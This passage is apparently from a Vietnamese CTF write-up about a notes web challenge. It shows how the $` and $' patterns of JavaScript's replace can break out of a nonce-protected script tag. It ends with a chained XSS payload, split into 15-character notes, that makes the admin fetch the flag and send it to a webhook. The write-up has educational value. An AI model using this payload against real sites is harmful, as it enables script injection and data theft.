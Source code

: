 ![image](https://hackmd.io/_uploads/HJWyh4l5yg.png)

Ví dụ : ta có thể sử dụng $\` để replace và thêm vào chuỗi đằng trước chuỗi mình cần replace và $' để thêm vào sau

![image](https://hackmd.io/_uploads/Skzdn4xckg.png)

Đến đây thì mình có thể thêm một cái note như sau : 

```html
<script nonce="{{nonce}}">
    const note = ['$`</script>$`;abc//']
```

thì nó sẽ replace thành 

```html
<!-- Output -->
<script nonce="{{nonce}}">
    const note = [' 
<script nonce="{{nonce}}">
    const note = </script> 
<script nonce="{{nonce}}">
    const note = ""; abc//'];
```

Và đoạn 

```html
    const note = [' 
<script nonce="{{nonce}}">
    const note = 
```

sẽ được thực thi

Thêm nữa là vì mỗi note chỉ giới hạn 15 chars 

```js
if (note.length > 15 || req.session.notes.length > 15) {
    res.status(400).send({ success: false });
    return;
}
```

Từ đó mình có thể xây dụng payload sau để chèn vào note và khiến admin fetch flag và đi đến window.name là link webhoook mà mình sẽ gán vào 

```js
const notes = [
  "$`</script>$`/*",
  "*/1;fetch(/*",
  '*/"/flag"/*',
  "*/,{method:/*",
  '*/"post"})./*',
  "*/then(_=>_./*",
  "*/text())./*",
  "*/then(_=>{/*",
  "*/location=/*",
  "*/name+_})//",
];
```
